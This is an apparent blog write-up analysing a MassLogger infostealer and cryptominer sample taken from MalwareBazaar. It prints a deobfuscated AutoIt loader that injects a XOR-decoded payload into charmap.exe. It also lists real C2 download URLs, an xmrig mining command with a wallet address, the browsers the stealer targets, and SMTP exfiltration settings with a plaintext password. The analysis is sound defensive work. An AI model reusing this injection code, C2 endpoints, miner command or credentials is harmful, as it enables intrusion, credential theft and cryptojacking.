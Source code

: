 MassLogger, an information-stealing malware designed to capture credentials, keystrokes, and clipboard data from victims, has been gaining prevalence in the threat landscape, with campaigns of various sizes and victimology observed worldwide. (Yes I copied this from broadcom lol)

Anyways, as usual I was on [MalwareBazaar](https://bazaar.abuse.ch/browse/), wishing to find a fresh malware and the one that caught my eye was the MassLogger tagged bat file.

![1|1000](https://github.com/basicacc/basicacc.github.io/blob/main/My_analysis/Malware_8/1.png?raw=true)

There are more example MassLogger executables uploaded by [lowmal3](https://bazaar.abuse.ch/user/1700/), but I chose this one to analyze, because others were almost same thing and some of them were .Net executables, which is old technique used by MassLogger.

This is the malware flow I made while analyzing the malware:

![1|700](https://github.com/basicacc/basicacc.github.io/blob/main/My_analysis/Malware_8/2.png?raw=true)

NOTE: To make it clear, all these executables are injected into different legit applications and executed as new thread. i don't want to repeat it every time.
At the top you can see a binary file named "sqNnY.bin", it will be our main target in this analysis but before that I want to tell what the other exe files does first. Starting from decrypted "aLlTeucWnrhechxHC.bin", first checks for debugger and simple VM detection (it is too easy to detect and bypass). 
Next "installer" is downloaded and executed, it drops new files and executes the au3 file. Last au3 file was most obfuscated one but it is not really difficult to deobfuscate it:

```au3
#cs
$vkkiihtobf = \nwekwowlwhwcogczoft
$nticu = C:\Windows\System32\charmap.exe
$cwipirw = kernel32.dll
$gsnfwdmcztclwcovhkqgi = OpenProcess
$gdixmilpmsosbp = VirtualAllocEx
$jecokuozjfa = WriteProcessMemory
$nhybphxljwzq = CreateRemoteThread
$rjhkweazp = CloseHandle
$fosxprdysmayinrykddwmelktkhpm = handle
$zixjs = dword
$xkitfxhddsbtsyuxw = bool
$lbcideknmrnsazvfazvjqox = ptr
$gbjoxnfcmfxrj = ulong_ptr
$gejrlpqkrcxnxubmbxdu = struct*
$buwqyl = dword*
$gvbdvltraydirvkh = byte[
$kplaadznpnfjmbmdfevat = ]
$mbklctvdfrnfgjakgsbqgx = 0x1F0FFF
$hnxremrogwsdjpoags = 0x3000
$invhvdcuydydlonc = 0x40
#ce

Global $pjbhqshpkkrdxsjiyzikstcp = FileOpen(@ScriptDir & $vkkiihtobf, 16)
Global $ewwhytiyydkuc = FileRead($pjbhqshpkkrdxsjiyzikstcp)
FileClose($pjbhqshpkkrdxsjiyzikstcp)

Global $mkzfc = BinaryLen($ewwhytiyydkuc)
If $mkzfc = 0 Then Exit

Global $mleqiqnnnbwglgehhkicmgaklppajh = DllStructCreate($gvbdvltraydirvkh & $mkzfc & $kplaadznpnfjmbmdfevat)
DllStructSetData($mleqiqnnnbwglgehhkicmgaklppajh, 1, $ewwhytiyydkuc)
For $rpmvy = 1 To $mkzfc
    DllStructSetData($mleqiqnnnbwglgehhkicmgaklppajh, 1, BitXOR(DllStructGetData($mleqiqnnnbwglgehhkicmgaklppajh, 1, $rpmvy), 185), $rpmvy)
Next

Global $yapoagjwmurj = Run($nticu, "", @SW_HIDE)
Global $lshbtrvzmznfktftandgtxfwse = DllCall($cwipirw, $fosxprdysmayinrykddwmelktkhpm, $gsnfwdmcztclwcovhkqgi, $zixjs, $mbklctvdfrnfgjakgsbqgx, $xkitfxhddsbtsyuxw, False, $zixjs, $yapoagjwmurj)[0]
Global $ynvhvx = DllCall($cwipirw, $lbcideknmrnsazvfazvjqox, $gdixmilpmsosbp, $fosxprdysmayinrykddwmelktkhpm, $lshbtrvzmznfktftandgtxfwse, $lbcideknmrnsazvfazvjqox, 0, $gbjoxnfcmfxrj, $mkzfc, $zixjs, $hnxremrogwsdjpoags, $zixjs, $invhvdcuydydlonc)[0]

DllCall($cwipirw, $xkitfxhddsbtsyuxw, $jecokuozjfa, $fosxprdysmayinrykddwmelktkhpm, $lshbtrvzmznfktftandgtxfwse, $lbcideknmrnsazvfazvjqox, $ynvhvx, $gejrlpqkrcxnxubmbxdu, $mleqiqnnnbwglgehhkicmgaklppajh, $gbjoxnfcmfxrj, $mkzfc, $lbcideknmrnsazvfazvjqox, 0)
Global $zsingslima = DllCall($cwipirw, $fosxprdysmayinrykddwmelktkhpm, $nhybphxljwzq, $fosxprdysmayinrykddwmelktkhpm, $lshbtrvzmznfktftandgtxfwse, $lbcideknmrnsazvfazvjqox, 0, $gbjoxnfcmfxrj, 0, $lbcideknmrnsazvfazvjqox, $ynvhvx, $lbcideknmrnsazvfazvjqox, 0, $zixjs, 0, $buwqyl, 0)[0]

If $zsingslima Then DllCall($cwipirw, $xkitfxhddsbtsyuxw, $rjhkweazp, $fosxprdysmayinrykddwmelktkhpm, $zsingslima)
DllCall($cwipirw, $xkitfxhddsbtsyuxw, $rjhkweazp, $fosxprdysmayinrykddwmelktkhpm, $lshbtrvzmznfktftandgtxfwse)
```

Comment section is added by me and removed other decryption parts to make it clear. this au3 will execute our last exe file named "nwekwowlwhwcogczoft".

"nwekwowlwhwcogczoft" is simple C2 that can do 3 things "exit", "update", "stealer".

Simple and clear flow:
1.  Checks if "Software\rub" registry is written, if it is not created, tries to download "http://176.98.187.46:1778/stealer"
2.  Checks if the size of "stealer" more than 1000000, if yes, executing it. else pass.
3. if "Software\rub" was not created, creates it.
4. Checks if a file named "paygab" exists in %LOCALAPPDATA%, if so, xor it with "0x60" and execute it.
5. if paygab doesn't exist, downloads "http://176.98.187.46:1778/miner" and executes it.
6. miner will check if "sigverif.exe" is running, if so terminates it.
7. Opens new "sigverif.exe" process, allocates space, writes the open source project named [xmrig](https://github.com/xmrig/xmrig) to be able to mine.
8. Executes command:
```cmd
C:\\Windows\\System32\\sigverif.exe --algo=rx/0 --url=gulf.moneroocean.stream:10001 --user=47GrvVWRXX9CbpQ7WKAqR1fP1fEYJpurvj8pAkF8FcgcUJTFi5KpTAmWxv4modTHTMNXZXSxa8K8SijdVHDiAUs69xgSt MY --pass=x --threads=2"
```

NOTE: This is new malware sample, as I was first person to submit this sample to [virustotal](https://www.virustotal.com/gui/file/0f0e64df4d5df47d5052c69e726ca0724af00192828e32e5f93fed5bc9fe61a4) and [malware bazaar](https://bazaar.abuse.ch/sample/0f0e64df4d5df47d5052c69e726ca0724af00192828e32e5f93fed5bc9fe61a4/)

9. Going back to "nwekwowlwhwcogczoft", after trying these things, it checks status of our machine by using InternetOpenUrl API "http://176.98.187.46:1778/heartbeat?userID=xxxx-xxxxx-xxxxx-xxxx" (userID is your machine GUID that got fetched by this executable before from registry) and using InternetReadFile API to check if there is any new command given by C2, as I said there are 3 commands "stealer"/"custom" (same thing), "exit", "update".
10. why "stealer/custom" can be given? because the one we downloaded before was actually decoy and size was lower than required. (why do this? to hide their project). 
11. other 2 "exit" and "update" are obvious, what they are.

There is a few possible case in our situation: 
1. the fake stealer is to take time of reverse engineers/malware analysts. 
2. it only gives real stealer to trusted (real victim machines by looking at their behaviour), for example I acted different than usual machines while analysing, requesting file a lot of times without checking heartbeat etc. or the attacker itself chooses which machines to send the real stealer. (most realistic case)

This was end of the "nwekwowlwhwcogczoft" executable.

The real deal was actually, "sqNnY.bin". Fun part is, I actually thought this is trash code to take our time but it is actually, the main part of the malware. After "xor"-ing it with the key even after you check the file type, it says "not a PE file". Also there is no "MZ" at the first 2 bytes of file. After a little, let' say "OSINT", I found out the "pe to shellcode" project was used for doing this: [pe_to_shellcode](https://github.com/hasherezade/pe_to_shellcode). A free but powerful project.

"The goal of this project is to provide a possibility to generate PE files that can be injected with minimal effort. It is inspired by Stephen Fewer's [ReflectiveDLLInjection](https://github.com/stephenfewer/ReflectiveDLLInjection) - but the difference is that with pe2shc you can add the reflective loading stub post-compilation. Also, the header of the PE file is modified in such a way, that you can start executing the injected buffer from the very beginning - just like you would do with a shellcode. It will automatically find the stub, and continue loading the full PE."

The point is, it really makes 0 sense when you look at the file, it is just a bunch of bytes. There is literally not a single string, not even "This program cannot be run in DOS mode" (because it is shellcode not PE). But the thing is, it is possible to manually extract malware. It was not that hard as I could find some APIs used by shellcode, like VirtualAlloc, memset, etc.

I could extract malware and check in virustotal, if the malware is submited before and I was the first person to submit it too. [malware bazaar](https://bazaar.abuse.ch/sample/038c357a30a4634ec309f1622ce91c25a18511689518c926080643b0d07ae008/#yara) and [virustotal](https://www.virustotal.com/gui/file/038c357a30a4634ec309f1622ce91c25a18511689518c926080643b0d07ae008/detection)

![1|1000](https://github.com/basicacc/basicacc.github.io/blob/main/My_analysis/Malware_8/4.png?raw=true)

It is .NET 32-bit executable with 0 encryption. and the funny part is malware developers choose this as their signature:

![1|700](https://github.com/basicacc/basicacc.github.io/blob/main/My_analysis/Malware_8/3.png?raw=true)

As it is not encrypted or anything I will just basically list what is can does and end it here:

1.  Checks if user (victim) is expired by comparing time to "2025-02-15" (if yes exit)

2. runs through 3 empty functions, probably not implemented by malware dev for now:
            UltraSpeed.Taskmgr_Disabler();
            UltraSpeed.CMD_Disabler();
            UltraSpeed.Registeries_Disabler();

3. Tries to steal data from these browsers:
```
Chrome_Speed
Torch_Speed
CocCoc_Speed
QQ_Speed
xVast_Speed
QIPSurf_Speed
Microsoft_Speed
Chromium_Speed
Blisk_Speed
Brave_Speed
Nichrome_Speed
Kometa_Speed
Superbird_Speed
Opera_Speed
Comodo_Speed
Cent_Speed
Chedot_Speed
Ghost_Speed
Iron_Speed
UC_Speed
BlackHawk_Speed
Citrio_Speed
Uran_Speed
Falkon_Speed
Sputnik_Speed
CoolNovo_Speed
Chrome_Canary_Speed
Sleipnir_Speed
Kinzaa_Speed
Amigo_Speed
Epic_Speed
e360_English_Speed
e360_China_Speed
Vivaldi_Speed
Xpom_Speed
orbitum_Speed
Iridium_Speed
SevinStar_Speed
Outlook_Speed
Foxmail_Speed
FireFox
SeaMonkey
IceDragon
Thunderbird
FileZilla_Speed
WindowsKey_Speed
```

4. sends these data using these:
```
private static string TheInfo = Conversions.ToString(Operators.ConcatenateObject(Operators.ConcatenateObject(Operators.ConcatenateObject(UltraSpeed.StrSignature + " \r\n\r\n\r\n==========PC INFO==========\r\nClient Name:" + Environment.MachineName, Operators.AddObject("\r\nFullDate: ", UltraSpeed.INFO_Date_Time())), "\r\nIP: " + UltraSpeed.INFO_SystemIP()), Operators.AddObject(Operators.AddObject(Operators.AddObject("\r\nCountry: ", UltraSpeed.INFO_Country()), "\r\n"), "==========PC INFO==========")));
private static string Host_Sender = "voiper@tamre.it";
private static string Host_Password = "KFRKgMrNoiIF";
private static string Host_Server = "mailserver12.vhosting-it.com";
private static string Host_Receiver = "remiset@remisat.com.uy";
private static string Host_Port = "465";
```

NOTE: the data I am talking about is usernames and passwords.